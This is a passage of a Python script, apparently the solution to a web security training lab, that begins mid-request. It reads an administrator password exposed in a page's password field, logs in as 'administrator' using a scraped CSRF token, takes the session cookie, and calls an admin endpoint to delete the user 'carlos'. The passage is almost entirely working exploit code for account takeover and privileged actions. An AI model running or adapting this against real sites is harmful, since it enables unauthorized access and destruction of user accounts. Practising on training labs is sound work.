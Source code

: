 ```python=
    url + '/my-account',
    params=params,
    verify=False,
    allow_redirects=False
)

soup = BeautifulSoup(response.text, 'html.parser')
password = soup.find('input', {'name': 'password'})['value']

session = requests.Session()

response = session.get(
    url + '/login',
    verify=False,
)

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']

# Post login

data = {
    "csrf": csrf,
    'username': 'administrator',
    'password': password,
}

response = session.post(
    url + '/login',
    data=data,
    verify=False,
    allow_redirects=False
)

session = response.headers['Set-Cookie'].split(';')[0].split('=')[1]

cookies = {
    'session': session,
}

params = {
    'username': 'carlos',
}

response = requests.get(
    url + '/admin/delete',
    params=params,
    cookies=cookies,
    verify=False
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```
